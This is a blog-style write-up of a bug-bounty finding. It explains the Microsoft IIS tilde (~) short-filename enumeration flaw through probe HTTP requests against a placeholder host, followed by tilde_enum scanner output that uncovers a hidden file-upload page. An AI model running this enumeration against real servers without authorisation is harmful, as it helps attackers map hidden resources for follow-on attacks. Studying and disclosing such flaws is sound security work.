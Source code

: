 +++
title = "Microsoft IIS Tilde Enumeration - Legacy Nightmare"
description = "Discovery of a rare Microsoft IIS Tilde (~) enumeration bug discovered during a bug bounty programme."
date = 2017-07-07
[taxonomies]
tags = ["security"]
+++
Recently during a bug bounty program I came across a particularly, "rare" vulnerability that often few people (myself included) don't quite understand. At first glance, the Microsoft IIS Tilde (~) Enumeration vulnerability seems like one of those cases where a feature is a bug (similar to [XXE](https://web.archive.org/web/20190514192329/https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)).

This article aims to dive deeper into the Windows filesystem, the enumeration vulnerability and it's impact on a web application.

> **Note** &mdash; All the information here is from a live bug bounty and not a local test setup to display the vulnerability. Public disclosure has not yet been granted and thus any references to the actual web application have been omitted.

---

## Feature Rich

When creating a new file on a Windows system, a short file name is generated using 8.3 format which can be seen when opening up your command prompt and running `dir /X` like so.

![](0lzbW4V.png)

This might seem obvious and not so horrible at first glance. Let's tackle this from a different perspective. I originally had a file named fileupload-20170707-N6L7dR4KcA.aspx which in the 8.3 file format is translated to `FILEUP~1.ASP`. I can now access the resource whilst only having to guess 12 characters instead of 32 and thus **greatly** reduced the total number of combinations required!

Some of you may be asking, "Why the short name?". The answer is essentially, to support old MS-DOS or 16-bit programs; this is the foundation for everything else that occurs throughout this article. That out of the way, enough with the boring stuff. Let's try to get a real target.

## The Target

When an application is powered by ASP.NET there is a good chance that the vulnerability can be found in some form or another. The idea is to cause the application to give a different response for more or less the same resource. However to confirm that the resource exists, I ran two tests.

### First Test

Check that the application will not respond differently when the file actually does not exist. Starting without the `~1` in the path.

#### Request

```none
GET /nonexistent-random-file/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

So far so good, let's try the same thing using the `~1` instead.

#### Request

```none
GET /nonexistent-random-file~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 404 Not Found
Cache-Control: no-cache
Pragma: no-cache
Content-Type: text/html
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
```

Same response, which is what we are looking for here. Great, now moving on to the next stage.

### Second Test

We know that the server will always respond with a `404 Not Found` when the file either in normal format or in 8.3 format does not exist. What happens when we try to access a file using 8.3 format that does exist? The server will respond with a `404 Not Found` if the resource does not exist, even if we use 8.3 format. Let's see what we can do to trigger another response.

#### Request

```none
GET /fileup~1/ HTTP/1.1
Host: example.com
```

#### Response

```none
HTTP/1.1 200 OK
Connection: close
Cache-Control: no-cache
Content-Type: text/html; charset=utf-8
Pragma: no-cache
Content-Length: 576
```

Bang! The site returned a 200 OK but still told us that the request was rejected:

_Error with your request_

That's great, we managed to get a different response which means there is something lingering in there.

## Extending the Discovery

Testing all of this manually is monkey's work. Let's use an automated tool such as [tilde_enum](https://web.archive.org/web/20190514192329/https://github.com/WebBreacher/tilde_enum) (used Python v2.7.11) instead to see if it finds anything juicy.

We need to first download a WORDLIST for the scanner to use. I happened to use the following [list](https://web.archive.org/web/20190514192329/https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web_Content/raft-small-words-lowercase.txt). Kicking off the scan.

```cmd
C:\tmp\tilde_enum-master>"C:/Python27/python" tilde_enum.py -u https://example.com/ -w raft-small-words-lowercase.txt -f
[-] Testing with dummy file request https://example.com/PLb4ftIiaW.htm
[-] URLNotThere -> HTTP Code: 404, Response Length: 1245
[-] Testing with user-submitted https://example.com/
[-] URLUser -> HTTP Code: 200, Response Length: 3775
[!] You have used the -f switch to force us to scan. Well played. Using the IIS/6 "*~1*/.aspx" string.
[+] Found a directory: advert
[+] Found a directory: app_of
[+] Found a directory: aspnet
[+] Found a directory: associ
[+] Found a directory: buyers
[+] Found a directory: commit
[+] Found a directory: confer
[+] Found a directory: errorp
[+] Found a directory: fileup
[+] Found a directory: fundra
[+] Found a directory: leader
[+] Found file: logo-2 . jpg
[+] Found a directory: mainte
[+] Found a directory: member
[+] Found a directory: messag
[+] Found a directory: resour
[+] Found a directory: subscr
[+] Found a directory: testlo
[+] Found a directory: webbac
[+] Found a directory: webpor
[-] Finished doing the 8.3 enumeration for /.
```

This is only a subset of the entire scan however we already found something juicy in there. From the list I can see filup which as most of you have already guessed, maps to `fileupload.aspx`. Let's find out.

Sending the first request to `fileup~1` like we saw before also return a `200 OK` along with the response.

![](rpGofln.png)

Let's try accessing the file directly using `fileupload.aspx` instead and see if it responds with the actual file.

![](A5h4l7f.png)

Looks like we just scraped the tip of the iceberg! A random file upload page that isn't linked anywhere in the web application but can be accessed directly; definitely juicy.

## Conclusion

That is all with regards to the Microsoft IIS Tilde Enumeration vulnerability. Below are some references and resources that would help you learn further and into more detail should you wish to.

The vulnerability itself may not seem scary alone but it could definitely expose some sensitive pages or directories to chain into another attack.

---

## Resources

* https://www.acunetix.com/blog/web-security-zone/windows-short-8-3-filenames-web-security-problem/
* http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf
* https://github.com/WebBreacher/tilde_enum

